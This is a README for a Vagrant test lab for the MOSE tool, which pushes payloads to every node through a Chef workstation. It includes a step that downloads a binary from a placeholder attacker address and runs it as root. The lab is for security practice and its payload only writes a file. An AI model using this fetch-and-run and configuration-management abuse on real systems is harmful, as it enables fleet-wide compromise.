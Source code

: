 
# chef-test-lab
Create test lab which can be used to play around with MOSE and Chef.

**Warning, take heed: This lab should be run in a controlled environment, as it contains vulnerable assets.

## Dependencies
You must download and install the following for this environment to work:
* [Vagrant](https://www.vagrantup.com/downloads.html)

## Lab Build Instructions
To create an environment with a Chef Workstation and a Chef Server that controls multiple agents, run the following command:
```
make build && make run
```
To run MOSE against the chef workstation:
1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef`
3. Login to the chef workstation: `vagrant ssh chef_workstation` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Run the payload: `chmod +x chef-linux; ./chef-linux`
7. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant)
	7a. Escalate to root with ```sudo su```
	7b. Run ```chef-client```
8. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

To run MOSE against the chef server:

To tear down the test environment, run the following command:
```
make destroy
```
